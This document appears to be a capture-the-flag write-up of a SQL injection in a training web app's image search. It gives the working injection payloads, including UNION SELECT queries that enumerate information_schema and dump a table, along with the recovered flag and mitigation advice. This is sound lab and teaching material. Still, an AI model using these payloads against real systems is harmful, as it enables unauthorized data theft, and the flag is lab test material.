 # SQL Injection Vulnerability

## Description
SQL Injection (SQLi) is a common web application vulnerability that allows an attacker to interfere with the queries that an application makes to its database. By injecting malicious SQL code into the input fields, an attacker can retrieve, manipulate, or delete data from the database.

## Steps to Exploit
1. **Identify the Vulnerability:**
   - While searching images on the website, we noticed that entering the payload `1 OR 1=1` in the search input field returned all the images from the database. This indicated a SQL injection vulnerability.

2. **Testing SQL Injection Payloads:**
   - We used SQL injection payloads from the [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list) to explore the vulnerability further.
   - Upon trying the payload `5 UNION ALL SELECT 1,2`, we discovered that the query returned two columns, indicating the structure of the underlying SQL query.

3. **Extracting Database Information:**
   - Using the information gathered, we crafted the following payload to retrieve details from the database:
     ```sql
     5 UNION SELECT 1, CONCAT(table_name,1000001,column_name) FROM information_schema.columns
     ```
   - This allowed us to identify that there is a table named `list_images`, which contains the columns `id`, `url`, `title`, and `comment`.

4. **Retrieving Data:**
   - We then crafted a final payload to extract the data from the `list_images` table:
     ```sql
     5 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
     ```
   - This payload revealed the following data:
     ```
     ID: 5 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
     Title: borntosec.ddns.net/images.pngHack me? If you read this just use this md5 decode lowercase then sha256 to win this flag! : 1928e8083cf461a51303633093573c46
     Url: 1
     ```

## Flag
The flag was extracted as part of the title:
`1928e8083cf461a51303633093573c46`

## Impact
SQL Injection vulnerabilities can have severe consequences, including:

- **Data Exfiltration:** Attackers can retrieve sensitive information such as user credentials, personal data, and other confidential records.
  
- **Data Manipulation:** Attackers can modify or delete data, potentially leading to data loss or corruption.
  
- **System Compromise:** In some cases, SQL Injection can be used to gain access to the underlying server, leading to a full system compromise.

## Evidence
*If you have any screenshots or logs showing the injection process or the retrieved data, include them here. Reference them like so:*
![SQL Injection Evidence](screenshots/sql_injection_results.png)

## Mitigation
To protect against SQL Injection vulnerabilities, consider implementing the following measures:

- **Parameterized Queries:** Always use parameterized queries or prepared statements to ensure that user input is treated as data, not executable code.

- **Input Validation:** Validate and sanitize all user inputs to ensure they conform to expected formats and values.

- **Least Privilege:** Ensure that database accounts used by the application have the least privileges necessary, limiting the potential impact of a successful SQL injection attack.

- **Regular Security Audits:** Perform regular security audits and penetration testing to identify and fix potential vulnerabilities.

## Payloads Used
Here are the SQL injection payloads that were used in the attack:

```plaintext
1 OR 1=1
5 UNION ALL SELECT 1,2
5 UNION SELECT 1, CONCAT(table_name,1000001,column_name) FROM information_schema.columns
5 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
